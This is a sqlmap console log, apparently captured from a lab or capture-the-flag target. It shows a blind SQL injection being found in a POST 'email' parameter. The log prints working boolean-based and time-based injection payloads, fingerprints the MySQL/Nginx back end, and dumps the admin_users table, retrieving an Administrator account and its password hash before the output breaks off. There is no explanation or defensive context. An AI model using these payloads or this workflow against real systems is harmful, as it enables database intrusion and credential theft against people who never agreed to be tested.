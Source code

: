 ```c
[16:12:31] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SLEEP - comment)'
[16:12:31] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (SLEEP - comment)'
[16:12:32] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP - comment)'
[16:12:32] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP - comment)'
[16:12:33] [INFO] testing 'MySQL < 5.0.12 AND time-based blind (BENCHMARK)'
[16:13:14] [INFO] POST parameter 'email' appears to be 'MySQL < 5.0.12 AND time-based blind (BENCHMARK)' injectable 
[16:13:14] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[16:13:14] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[16:13:15] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[16:13:16] [INFO] target URL appears to have 8 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[16:13:55] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[16:13:58] [INFO] target URL appears to be UNION injectable with 8 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[16:14:42] [INFO] testing 'Generic UNION query (98) - 21 to 40 columns'
[16:14:45] [INFO] testing 'Generic UNION query (98) - 41 to 60 columns'
[16:14:47] [INFO] testing 'Generic UNION query (98) - 61 to 80 columns'
[16:14:50] [INFO] testing 'Generic UNION query (98) - 81 to 100 columns'
[16:14:53] [INFO] testing 'MySQL UNION query (98) - 1 to 20 columns'
[16:15:20] [INFO] testing 'MySQL UNION query (98) - 21 to 40 columns'
[16:15:23] [INFO] testing 'MySQL UNION query (98) - 41 to 60 columns'
[16:15:25] [INFO] testing 'MySQL UNION query (98) - 61 to 80 columns'
[16:15:29] [INFO] testing 'MySQL UNION query (98) - 81 to 100 columns'
[16:15:31] [INFO] checking if the injection point on POST parameter 'email' is a false positive
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 9634 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=I8tkgP7AiWH9qxEWEPiDaradDwBKcAQ3gRQutuOg&email=foobar@foobar.local' AND 7627=(SELECT (CASE WHEN (7627=7627) THEN 7627 ELSE (SELECT 6947 UNION SELECT 8687) END))-- zPyH

    Type: time-based blind
    Title: MySQL < 5.0.12 AND time-based blind (BENCHMARK)
    Payload: _token=I8tkgP7AiWH9qxEWEPiDaradDwBKcAQ3gRQutuOg&email=foobar@foobar.local' AND 5625=BENCHMARK(5000000,MD5(0x6e624d6d))-- mpQB
---
[16:15:41] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL < 5.0.12
[16:15:41] [INFO] fetching entries of column(s) '`name`,password' for table 'admin_users' in database 'usage_blog'
[16:15:41] [INFO] fetching number of column(s) '`name`,password' entries for table 'admin_users' in database 'usage_blog'
[16:15:41] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[16:15:41] [INFO] retrieved: 1
[16:15:43] [INFO] retrieved: Administrator
[16:16:16] [INFO] retrieved: $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2
Database: usage_blog
Table: admin_users
[1 entry]
+---------------+--------------------------------------------------------------+
```